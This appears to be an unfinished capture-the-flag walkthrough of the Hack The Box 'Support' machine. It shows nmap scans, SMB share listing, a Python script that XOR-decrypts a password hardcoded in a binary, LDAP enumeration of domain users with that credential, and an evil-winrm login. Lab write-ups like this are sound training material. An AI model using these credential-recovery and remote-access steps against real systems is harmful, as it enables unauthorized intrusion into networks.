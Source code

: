 # Enumeration

Look what ports are opens
```bash
nmap -p- --min-rate 10000 -oA nmap/massive_scan 10.129.224.189
Nmap scan report for 10.129.224.189 (10.129.224.189)
Host is up (0.026s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49690/tcp open  unknown
49695/tcp open  unknown
49711/tcp open  unknown

```

take the ports open and run the nmap with `-sVC` flag
```bash
sudo nmap -sCV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49678,49690,49695,49711 10.129.224.189 -oA complete_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-22 02:24 EDT
Nmap scan report for DC.support.htb0 (10.129.224.189)
Host is up (0.061s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-22 06:24:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-22T06:25:42
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.80 seconds

```

the hostname `DC` and `support.htb0` are both leaked. I'll update my `hosts` file with `10.129.224.189 DC.support.htb support.htb`

## Shares Enumeration

```bash
smbclient -N -L //support.htb            

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to support.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

TODO: Aggiungere come scaricare `iLSpy`

![[Pasted image 20250622103330.png]]

to decrypt the base64 string using XOR algorithm we need the value of **key** variable.
`armando` is the **key** value

![[Pasted image 20250622103439.png]]

XOR have is bidirectional means the same method to chiper the string will be use to decrypt. We can use the same c# fuctions founded in PE file but on my kali machine i prefer to use python. This is my python script to decrypt the pasdword

```python

import base64


base64_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = list("armando".encode())

print(base64_password, '\n')
print(key,'\n') 

print("****************** XOR DECRYPT *************************")

array = base64.b64decode(base64_password)
decrypted = bytearray()

for i in range(len(array)):
	byte = (array[i]^key[i % len(key)]) ^ 0xDF
	decrypted.append(byte)

d = decrypted.decode("utf-8")

print(d)


'''
public static string getPassword()
{
	byte[] array = Convert.FromBase64String(enc_password);
	byte[] array2 = array;
	for (int i = 0; i < array.Length; i++)
	{
		array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
	}
	return Encoding.Default.GetString(array2);
}
'''
```



TODO:
spigare che ho dovuto usare '' perche' altrimenti il dollaro viene preso come variabile

```bash
ldapsearch -H LDAP://support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(ObjectClass=Users)"

```



get all'users with ldap query

```bash
ldapsearch -H LDAP://support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" '(objectClass=User)' sAMAccountName | grep sAMAccountName
# requesting: sAMAccountName 
sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: DC$
sAMAccountName: krbtgt
sAMAccountName: ldap
sAMAccountName: support
sAMAccountName: smith.rosario
sAMAccountName: hernandez.stanley
sAMAccountName: wilson.shelby
sAMAccountName: anderson.damian
sAMAccountName: thomas.raphael
sAMAccountName: levine.leopoldo
sAMAccountName: raven.clifton
sAMAccountName: bardot.mary
sAMAccountName: cromwell.gerard
sAMAccountName: monroe.david
sAMAccountName: west.laura
sAMAccountName: langley.lucy
sAMAccountName: daughtler.mabel
sAMAccountName: stoll.rachelle
sAMAccountName: ford.victoria

```


```bash
evil-winrm -u "support" -p "Ironside47pleasure40Watchful" --ip support.htb
```
![[Pasted image 20250622105158.png]]

